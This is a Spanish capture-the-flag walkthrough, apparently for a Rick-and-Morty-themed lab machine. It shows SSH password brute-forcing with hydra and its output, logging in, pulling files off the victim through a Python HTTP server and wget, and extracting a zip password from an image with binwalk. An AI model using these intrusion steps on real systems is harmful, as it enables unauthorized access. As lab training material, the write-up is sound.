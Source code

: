 Primero crear un archivo con los users. Y con la herramienta hydra hacer probar por fuerza bruta con la contraseña winter.

```bash
sudo hydra -L users -p winter 192.168.56.130 -t 4 ssh -s 22222
```
```bash
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://192.168.56.130:22222/
[22222][ssh] host: 192.168.56.130   login: Summer   password: winter
1 of 1 target successfully completed, 1 valid password found
```
Con la contraseña y el user. Entrar por ssh.

```bash
ssh Summer@192.168.56.130 -p22222
```
```bash
The authenticity of host '[192.168.56.130]:22222 ([192.168.56.130]:22222)' can't be established.
ED25519 key fingerprint is SHA256:RD+qmhxymhbL8Ul9bgsqlDNHrMGfOZAR77D3nqLNwTA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.56.130]:22222' (ED25519) to the list of known hosts.
Summer@192.168.56.130's password: 
Last login: Wed Aug 23 19:20:29 2017 from 192.168.56.104
[Summer@localhost ~]$
```
ls y hay una flag, el comando cat dibuja un gato, pero se puede usar nano, para leer la flag.

Buscando por carpetas, he encontrado que en el /home/Morty hay 2 archivos. Un zip y una imagen. Entonces abrir un server local en la maquina victima con python para descargar los archivos.
```bash
python3 -m http.server 8000
```
En la maquina atacante 
```bash
wget http://192.168.56.130:8000/Safe_Password.jpg
```
Usar la herramietna binwalk 
```bash
binwalk Safe_Password.jpg
```
```bash
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
30            0x1E            TIFF image data, big-endian, offset of first image directory: 8
192           0xC0            Unix path: /home/Morty/journal.txt.zip. Password: Meeseek

```
Nos da una contraseña para el journal.txt.zip. Entonces un unzip al journal.txt.zip y la contraseña. Y te da otra flag con un codigo.

Dentro de la ruta /home/RickSanchez/RICKS_SAFE hay un archivo safe. Repetir el proceso de abrir un server local con python y pasarnos el safe. Darle permisos de ejecución y ejecutarlo con el codigo que había dentro de la flag anterior. Ya que el mensaje de no poner este codigo te dice que uses argumentos y en el anterior mensaje no para de repetir la palabra safe.
